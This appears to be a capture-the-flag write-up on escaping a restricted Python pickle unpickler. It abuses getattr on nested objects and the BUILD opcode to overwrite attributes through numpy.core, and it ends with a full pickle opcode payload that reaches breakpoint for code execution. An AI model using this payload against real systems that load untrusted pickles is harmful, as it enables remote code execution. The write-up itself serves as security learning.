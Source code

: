 # smiley-faiss

ok basically one "well known"(ish) trick is that if you have getattr but not _getattribute (with ".") on a specific object, if you can get an attribute of that object that can have its attributes overwritten, it is easy to get rce

by that i mean:

```
class Dummy: pass

outer = Dummy()
outer.inner = Dummy()
outer.inner.escape = {'woohoo': breakpoint}
```

so basically if it was just an object and it had a dictionary attribute (e.g. `__builtins__`) with a valuable object (e.g. `breakpoint`), it is not possible without having this inner-outer setup

if it is permitted in find_class to do `getattr(outer, name)` and also `getattr(outer.inner, name)` then one can `getattr(outer, "inner")` to get inner and then abuse the BUILD
opcode, which allows for arbitrary setattr (you may see where this is going). so, by doing BUILD with slotstate and `getattr(outer.inner, "escape")`, then you can get the breakpoint function (in this example).

however, with this challenge, one has to do a double extension with numpy.core and then numpy.core.multiarray. this is not possible with the original importlib impl for some reason because it bypasses our overwriting of attributes (probably because it is importing the module again instead of using getattr)

so, a valid payload is 

```(GLOBAL + b"numpy\ncore\n" + NONE + MARK + UNICODE + b'multiarray\n' + GLOBAL + b'numpy\ncore\n' + DICT + TUPLE2 + BUILD + POP + GLOBAL + b'numpy\ncore\n' + NONE + GLOBAL + b'numpy\n__builtins__\n' + TUPLE2 + BUILD + GLOBAL + b'numpy.core.multiarray\nbreakpoint\n' + EMPTY_TUPLE + REDUCE + STOP).hex()```

